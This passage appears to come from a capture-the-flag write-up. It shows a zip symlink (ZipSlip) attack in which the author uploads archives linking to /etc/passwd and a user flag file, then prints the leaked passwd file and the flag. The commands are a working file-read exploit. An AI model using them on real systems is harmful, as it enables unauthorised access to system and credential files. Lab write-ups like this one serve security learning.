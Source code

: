 ```
$ ln -s ../../../../../../../../../../etc/passwd zipslip.pdf
$ zip -y zipslip.zip zipslip.pdf
  adding: zipslip.pdf (deflated 70%)
```

Uploading the zip and looking at the response gives us the base64 encoded data of the `/etc/passwd` file.

```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
systemd-network:x:101:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-timesync:x:102:103:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:109::/nonexistent:/usr/sbin/nologin
systemd-resolve:x:104:110:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
pollinate:x:105:1::/var/cache/pollinate:/bin/false
sshd:x:106:65534::/run/sshd:/usr/sbin/nologin
rektsu:x:1001:1001::/home/rektsu:/bin/bash
mysql:x:107:115:MySQL Server,,,:/nonexistent:/bin/false
_laurel:x:999:999::/var/log/laurel:/bin/false
```

We can see a user `rektsu` and probably get the user flag doing this!

```
$ ln -s ../../../../../../../../../../home/rektsu/user.txt zipslip-user.pdf
$ zip -y zipslip-user.zip zipslip-user.pdf
```

And surely enough after upload, visiting the URL and base64 decoding the response, we get our user flag! 

Flag: `7fc124f67ec9ba3c47da4afb6e7a77ee`

## Inital Access & Exploitation+

To make the process a bit quicker I ended up writing a python script to automatically perform the ZipSlip attack:
